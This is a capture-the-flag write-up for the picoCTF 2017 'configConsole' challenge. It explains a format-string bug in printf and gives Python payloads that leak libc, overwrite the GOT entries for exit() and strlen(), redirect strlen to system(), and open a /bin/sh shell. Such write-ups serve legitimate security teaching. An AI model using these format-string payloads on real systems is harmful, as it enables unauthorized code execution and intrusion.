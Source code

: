 # Level 3 - configConsole

```
Config Console
In order to configure the login messsage for all the users on the system, you've been given access to a configuration console. 
See if you can get a shell on shell2017.picoctf.com:47232.

HINTS

You can either see where libc is or modify the execution. 
Is there a way to get the vulnerability to run twice so that you can do both?
There's a place in libc that will give you a shell as soon as you jump to it. Try looking for execve.
```

The vulnerable piece of code is here:
```C
void set_exit_message(char *message) {
    if (!message) {
        printf("No message chosen\n");
        exit(1);
    }
    printf("Exit message set!\n");
    printf(message);   //<---------------------------HERE

    append_command('e', message);
    exit(0);
}
```
This is obviously a FSB. But there is a call to exit(0) right afterwards, so how can we get around this?

I did this by leaking a libc address and updating the GOT entry for exit() in one statement:
```python
  # Set the exit message, since that has the vulnerable printf()
  # First print out a leaked address to use. Then update write to GOT
  # to update the lower 2Bytes of the exit() address with something 
  # that doesn't do anything. Thereby just returning instead of exiting
  payload = 'e'
  payload += '_______'
  payload += p64(0x4141414141414141)
  payload += ' %25$p%{}c%19$hn '.format(int(0xb45-14))
  payload += 'AAAAA'
  payload += p64(0x601258)
  print r.sendline(payload)
```

Before printf is called: `0x601258 (exit@got.plt) —▸ 0x400736 (exit@plt+6)`

After printf is called:  `0x601258 (exit@got.plt) —▸ 0x400b45 (main+114)`

So whenever exit() is called it will jump back into main+114 instead.

So now we have two things:
* Libc leaked address
* Ability to do more calls to the vulnerable printf

The hint says that there is a place in libc that we can jump to that will give you a shell. 
That's nice and all, but is very libc binary specific. Let's do it in a more robust way.

Next, we want to find a function that will take a pointer, preferably to a string we control.
```C
void set_prompt(char *prompt) {
    if (!prompt) {
        printf("No prompt chosen\n");
        exit(1);
    }
    if (strlen(prompt) > 10) {                //<------------ This looks perfect
        printf("Prompt too long\n");
        exit(1);
    }
    printf("Login prompt set to: %10s\n", prompt);

    append_command('p', prompt);
    exit(0);
}
```
Great, and `strlen()` is only used here, so we're safe to update that with multiple writes
```python
  #Start overwriting the GOT entry for strlen()
  #update it with the address of system()
  wait_for_prompt(r)
  payload  = 'e '
  payload += '%{}c%17$hn '.format(int(addr1))
  payload += 'A'*(8)
  payload += p64(0x601210)

  print r.sendline(payload)

  payload  = 'e '
  payload += '%{}c%18$hn '.format(int(addr2))
  payload += 'A'*(8+8)
  payload += p64(0x601210+2)

  print r.sendline(payload)

  payload  = 'e '
  payload += '%{}c%19$hn '.format(int(addr3))
  payload += 'A'*(8+8+8)
  payload += p64(0x601210+4)

  print r.sendline(payload)
```

Now at this point, if we look at the GOT entry for strlen() we have:
`0x601210 (strlen@got.plt) —▸ 0x7fb0701b3490 (system)`
Perfect. Now we just have to pass the right parameter to `system()`

```python
  # strlen() in GOT is now overwritten
  # since prompt calls strlen on string passed
  # we can input string directly here
  print r.sendline('p /bin/sh')
  print "You should now have shell"
  
  # Drop to interactive console
  r.interactive()
```

Full exploit code in the [exploit.py](exploit.py) file.
